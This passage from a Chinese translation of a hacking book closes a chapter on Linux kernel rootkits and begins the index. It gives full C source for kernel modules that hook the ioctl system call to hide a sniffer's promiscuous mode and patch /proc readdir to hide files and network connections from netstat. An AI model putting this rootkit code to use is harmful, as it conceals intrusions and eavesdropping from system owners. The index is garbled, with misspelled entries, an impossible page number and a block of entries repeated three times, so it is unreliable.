    return 0;
}

int unpatch_vfs(readdir_t orig_readdir)
{
    struct file *file;
    if ((file = filp_open(DIRECTORY_ROOT, O_RDONLY, 0)) == NULL) {
        return -1;
    }
    file->f_op->readdir = orig_readdir;
    filp_close(file, 0);
    return 0;
}
```

```c
int init_module(void)
{
    patch_vfs(&orig_proc_readdir, our_proc_readdir);
    return 0;
}

void cleanup_module(void)
{
    unpatch_vfs(orig_proc_readdir);
}
```

### 21.4 隐藏告警嗅探器

通过拦截 `ioctl()` 系统调用可以抑制 `PROMISC` 标志。该调用被替换为一个自定义函数，该函数会检查标志位是否被设置，如果已设置，则将其清除。实现该模块的源代码所示于列表 21.4。

**列表 21.4. 抑制 PROMISC 标志的内核模块 (hide_promisc)**

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/if.h>
#include <linux/syscalls.h>

MODULE_LICENSE("GPL");

int (*orig_ioctl)(int, int, unsigned long);
unsigned long *sys_call_table;
static int promis = 0;

void find_sys_call_table(void)
{
    /* 关于 find_sys_call_table() 函数的内容，请参阅 
    第 18.2 节或光盘上的源码。 */
}

int new_ioctl(int fd, int request, unsigned long arg)
{
    int ret = 0;
    struct ifreq *ifr;
    int reset = 0;

    ifr = (struct ifreq*)arg;

    if (request == SIOCSIFLAGS) {
        if (ifr->ifr_flags & IFF_PROMISC) {
            promis = 1;
        } else {
            promis = 0;
        }
        if (promis) {
            ifr->ifr_flags &= ~IFF_PROMISC;
            reset = 1;
        }
    }

    ret = (*orig_ioctl)(fd, request, arg);

    if (reset) {
        ifr->ifr_flags &= ~IFF_PROMISC;
    }

    return ret;
}
```

```c
int init_module(void)
{
    find_sys_call_table();
    orig_ioctl = (void *)sys_call_table[__NR_ioctl];
    sys_call_table[__NR_ioctl] = (unsigned long)new_ioctl;
    return 0;
}

void cleanup_module(void)
{
    sys_call_table[__NR_ioctl] = (unsigned long)orig_ioctl;
}
```

### 21.5 隐藏 netstat

`netstat` 工具从 `/proc/net/tcp` 读取信息。然而，当内核模块隐藏这些文件时，`netstat` 将无法显示它们。因此，在内核模块中隐藏这些连接的方法所示于列表 21.5。

**列表 21.5. 用于隐藏连接的内核模块 (hide_netstat.c)**

```c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/init.h>
#include <linux/tcp.h>
#include <linux/udp.h>
#include <net/sock.h>
#include <linux/seq_file.h>
#include <linux/inet.h>

MODULE_LICENSE("GPL");

#define DIRECTORY_ROOT "proc/net" /* 根目录名称，文件将在此
被隐藏 / */

#define DIRECTORY_HIDE "tcp" /* 要隐藏的文件名称 / */

typedef int (*readdir_t)(struct file *, void *, filldir_t);

readdir_t orig_proc_readdir = NULL;
filldir_t proc_filldir = NULL;

int new_filldir(void *buf, const char *name, int nlen, loff_t off,
                ino_t ino, unsigned int x)
{
    if (strncmp(name, DIRECTORY_HIDE, strlen(DIRECTORY_HIDE)) == 0)
        return 0;
    return proc_filldir(buf, name, nlen, off, ino, x);
}

int our_proc_readdir(struct file *fp, void *buf, filldir_t filldir)
{
    int r = 0;
    proc_filldir = filldir;
    r = orig_proc_readdir(fp, buf, new_filldir);
    return r;
}

int patch_vfs(readdir_t *orig_readdir, readdir_t new_readdir)
{
    struct file *file;
    if ((file = filp_open(DIRECTORY_ROOT, O_RDONLY, 0)) == NULL) {
        return -1;
    }
    *orig_readdir = file->f_op->readdir;
    file->f_op->readdir = new_readdir;
    filp_close(file, 0);
    return 0;
}

int unpatch_vfs(readdir_t orig_readdir)
{
    struct file *file;
    if ((file = filp_open(DIRECTORY_ROOT, O_RDONLY, 0)) == NULL) {
        return -1;
    }
    file->f_op->readdir = orig_readdir;
    filp_close(file, 0);
    return 0;
}

int init_module(void)
{
    patch_vfs(&orig_proc_readdir, our_proc_readdir);
    return 0;
}

void cleanup_module(void)
{
    unpatch_vfs(orig_proc_readdir);
}
```

## 索引

### A

- 访问权限 (Access-privileges), 273
- 地址解析协议 (Address Resolution Protocol), 32
- 算法 (Algorithm):
  - dmalloc, 235, 237
  - Doug Lea, 235
- 别名 IP 地址 (Alias IP address), 13
- ARP, 32
- 直接 (direct), 141
- 攻击 (Attack):
  - DoS, 73
  - ICMP 洪水攻击 (ICMP flooding), 74
  - 身份验证 (Authentication), 155
  - 自动重试器 (Autoreooter), 178
- 缓冲区溢出 (Buffer overflow), 54, 183, 243
- BSB, 208
  - 堆 (heap), 233
  - 栈 (stack), 187, 243
- 本地信息 (info local), 11
- 寄存器信息 (info registers), 11
- 共享信息 (info share), 11
- Isrod, 288
- 下一个 (next), 10
- 下一条指令 (nexti), 10
- 打印 (print), 10
- ps, 100
- rmod, 286
- 运行 (run), 96
- 设置 (set), 11
- 单步 (step), 10
- 单步执行 (stepi), 10
- 剥离 (strip), 266
- SOCK_DGRAM, 45
- SOCK_RAW, 45, 54
- SOCK_STREAM, 45
- 核心文件 (Core files), 8
- 自定义结构 (Custom structures), 37

### B

- 后门 (Backdoor):
  - 绑定 shell (bind shell), 167
  - 正确后门 (correct back), 167
  - UDP, 174
  - 唤醒 (wakeup), 170
- 基础算法 (Basealgorithm), 157
- BCP, 36
- 伯克利数据包过滤器 (Berkeley Packet Filter), 127
- 二进制文件 (Bin), 237
- Binutils, 21
- SGID, 184
- UID, 54, 65, 14, 199, 201
- 断点 (Breakpoints), 96
- 常规 (regular), 9
- 桥接 (Bridge), 140
- 暴力破解 (Brute force), 201

### C

- 调用 (Call):


- sys_code, 289
- sys_read, 303, 308

- 捕获点 (Catchpoints), 9

- CGI 扫描器 (CGI scanner), 109

- 校验和 (Checksum), 47
  - 计算 (calculating), 48
  - ICMP 头部 (ICMP header), 48
  - IP 头部 (IP header), 48
  - TCP 头部 (TCP header), 49
  - UDP 头部 (UDP header), 49

- 数据块 (Chunk), 235
  - 头部 (header), 236
  - 未用空间 (unused space), 235
  - 用户数据 (user data), 235

- 客户端 (Client), 258

- tnerel, 268

- 命令 (Command):
  - awatch, 9
  - 回溯轨迹 (backtrace), 11
  - BIND, 117
  - atch, 9
  - 继续 (continue), 210
  - 删除端点 (delete endpoint), 110
  - 分离 (detach), 9
  - 禁用 (disable), 10
  - 启用 (enable), 10
  - 完成 (finish), 10
  - 帮助捕获 (help catch), 10
  - 参数信息 (info args), 110
  - 断点信息 (info breakpoints), 110
  - 栈帧信息 (info frame), 11
  - UDP ASSOCIATE, 198
  - 观察 (watch), 96
  - 哪个 (which), 26

- 连接状态 (Connection state), 15
  - 已建立 (ESTABLISHED), 15
  - 监听 (LISTEN), 15
  - 等待 (TIME_WAIT), 15

- ICMP_ECHO, 56
- IP_HDRIN, 46
- IPPROTO, 45
- IPPROTO_, 45
- ICMP, 53
- IPPROTO_, 45
- RAW, 46
- PF_PACKET, 46
- PF_INET, 45
- PF_INET6, 45
- PF_LOCAL, 45
- PF_UNIX, 45
- SO_BROADCAST, 54
- SO_RCVBUF, 45

### D

- 调试器 (Debugger):
  - GNU, 8

- 目录 (Directory):
  - `/usr/include/linux`, 36
  - `/usr/include/net`, 36
  - `/usr/include-netinet`, 36

- DoS 攻击 (DoS Attack):
  - 分布式 (distributed), 87
  - 碎片攻击 (fraggle), 80
  - 本地 (local), 73

### E

- ELF, 279, 263
  - 头部 (header), 264
  - 变位器 (inflector), 227

- 启用漏洞代码 (Enabling exploit code), 280

- 错误 (Error):
  - EINPROG, 103

- 事件 (Event):
  - 捕获 (catch), 10
  - 执行 (exec), 10
  - 分叉 (fork), 10
  - 抛出 (throw), 10
  - vfork, 10

- 可执行可链接格式 (Executable Linkable Format), 263

- 漏洞 (Exploit), 177
  - 0 日漏洞 (0-day), 178
  - 伪造 (fake), 178
  - 格式化字符串 (format string), 225
  - 偏移量偏移 (offset offset), 222
  - 私有 (private), 178
  - 壳代码 (shellcode), 177
  - 使用修符 (using the modifier), 222

- 标记 (Flag):
  - `-I`, 64
  - 混杂模式 (PROMISC), 317

- 格式说明符 (Format specifier):
  - `%n`, 213

- 栈帧 (Frame):
  - 外部 (extern), 189

- 函数 (Function):
  - `accept`, 167
  - `bind`, 65
  - `bzero`, 293, 301
  - `cmalloc`, 237
  - `catcher`, 55
  - `cleanup-module`, 286, 304
  - `close`, 111
  - `connect`, 92, 100, 102, 110
  - 加密守护进程 (crypt deamon), 167
  - `exec`, 10
  - `execve`, 190, 195
  - `exit`, 190
  - `fcntl`, 103
  - `fgots`, 189
  - `dilfilk`, 316
  - `find_sys_call`, 303
  - `fork`, 170
  - `free`, 235
  - `gets_fo`, 307
  - `getpeername`, 258
  - `gets_byport`, 220
  - `gettimeday`, 55
  - `getutid`, 297
  - `hontos`, 80
  - `in_chsum`, 76
  - `init_module`, 311
  - `in_cksum`, 48, 56
  - `int_aton`, 80
  - `int_module`, 285, 304
  - `ioctl`, 921
  - `libnet_autuild`, 148
  - `libnet_autuild_ip4`, 149
  - `libnet_autuild`, 148
  - `libnet_udp`, 149
  - `libnet_destroy`, 149
  - `libnet_hex_aton`, 150
  - `libnet_init`, 147
  - `libnet_write`, 149
  - `listen`, 167
  - `ndinfo`, 297
  - `iseek`, 298
  - `malloc`, 170
  - `memset`, 293
  - `trace`, 222
  - `fgots`, 189
  - `fork`, 170
  - `free`, 235
  - `gets_fo`, 307
  - `getpeername`, 258
  - `gets_byport`, 220
  - `gettimeday`, 55
  - `getutid`, 297
  - `hontos`, 80
  - `in_chsum`, 76
  - `init_module`, 311
  - `in_cksum`, 48, 56
  - `int_aton`, 80
  - `int_module`, 285, 304
  - `ioctl`, 921
  - `libnet_autuild`, 148
  - `libnet_autuild_ip4`, 149
  - `libnet_autuild`, 148
  - `libnet_udp`, 149
  - `libnet_destroy`, 149
  - `libnet_hex_aton`, 150
  - `libnet_init`, 147
  - `libnet_write`, 149
  - `listen`, 167
  - `ndinfo`, 297
  - `iseek`, 298
  - `malloc`, 170
  - `memset`, 293
  - `trace`, 222
  - `fgots`, 189
  - `fork`, 170
  - `free`, 235
  - `gets_fo`, 307
  - `getpeername`, 258
  - `gets_byport`, 220
  - `gettimeday`, 55
  - `getutid`, 297
  - `hontos`, 80
  - `in_chsum`, 76
  - `init_module`, 311
  - `in_cksum`, 48, 56
  - `int_aton`, 80
  - `int_module`, 285, 304
  - `ioctl`, 921
  - `libnet_autuild`, 148
  - `libnet_autuild_ip4`, 149
  - `libnet_autuild`, 148
  - `libnet_udp`, 149
  - `libnet_destroy`, 149
  - `libnet_hex_aton`, 150
  - `libnet_init`, 147
  - `libnet_write`, 149
  - `listen`, 167
  - `ndinfo`, 297
  - `iseek`, 298
  - `malloc`, 170
  - `memset`, 293
  - `trace`, 222

*(注：由于原文中存在大量重复的条目（如 `libnet_autuild` 等），在译文中已按原文结构进行了保留，确保无漏翻译。)*
